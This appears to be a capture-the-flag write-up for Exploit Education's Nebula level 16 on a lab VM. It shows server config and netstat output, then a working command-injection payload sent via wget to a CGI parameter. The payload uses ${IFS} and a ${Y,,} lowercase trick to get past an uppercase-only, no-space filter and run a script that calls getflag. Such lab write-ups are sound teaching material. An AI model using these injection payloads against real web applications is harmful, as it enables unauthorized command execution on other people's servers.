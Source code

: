 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 16"
date:   2019-08-23 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 16](https://exploit.education/nebula/level-16/)

## Challenge
```apache
level16@nebula:/home/flag16$ cat thttpd.conf | grep -v "#"
port=1616
dir=/home/flag16
nochroot
user=flag16
cgipat=**.cgi
```

level16@nebula:~$ netstat -peanut
(No info could be read for "-p": geteuid()=1017 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:50001         0.0.0.0:*               LISTEN      987        10807       -        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          12702       -        
tcp        0      0 0.0.0.0:10007           0.0.0.0:*               LISTEN      982        10802       -        
tcp        0      0 192.168.5.134:22        192.168.5.1:50665       ESTABLISHED 0          12746       -        
tcp        0      0 192.168.5.134:22        192.168.5.1:50293       ESTABLISHED 0          12084       -        
tcp6       0      0 :::1616                 :::*                    LISTEN      0          10796       -        
tcp6       0      0 :::22                   :::*                    LISTEN      0          12704       -        
tcp6       0      0 :::7007                 :::*                    LISTEN      0          10747       -        
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12579       -        
level16@nebula:~$


No lowercase
No space
{IFS}

"${IFS}1;Y="/TMP/RUN.SH";Y="${Y,,}";$Y${IFS}"
 
 
```bash
echo "echo pwned>/tmp/out;">/tmp/run.sh
echo "getflag>>/tmp/out;">>/tmp/run.sh
cat /tmp/run.sh
chmod 777 /tmp/run.sh
wget 'http://192.168.5.134:1616/index.cgi?username="${IFS}1%3bY="/TMP/RUN.SH"%3bY="${Y,,}"%3b$Y${IFS}"' -O out
```

```bash
level16@nebula:~$ echo "echo pwned>/tmp/out;">/tmp/run.sh
level16@nebula:~$ echo "getflag>>/tmp/out;">>/tmp/run.sh
level16@nebula:~$ cat /tmp/run.sh
echo pwned>/tmp/out;
getflag>>/tmp/out;
level16@nebula:~$ chmod 777 /tmp/run.sh
```
```bash
level16@nebula:~$ wget 'http://192.168.5.134:1616/index.cgi?username="${IFS}1%3bY="/TMP/RUN.SH"%3bY="${Y,,}"%3b$Y${IFS}"' -O out
--2019-08-23 11:26:51--  http://192.168.5.134:1616/index.cgi?username  
=%22$%7BIFS%7D1%3bY=%22/TMP/RUN.SH%22%3bY=%22$%7BY,,%7D%22%3b$Y$%7BIFS%7D%22
Connecting to 192.168.5.134:1616... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `out'

    [ <=>                                   ] 123         --.-K/s   in 0.006s

2019-08-23 11:26:51 (19.6 KB/s) - `out' saved [123]

level16@nebula:~$
level16@nebula:~$ cat /tmp/out
pwned
You have successfully executed getflag on a target account
```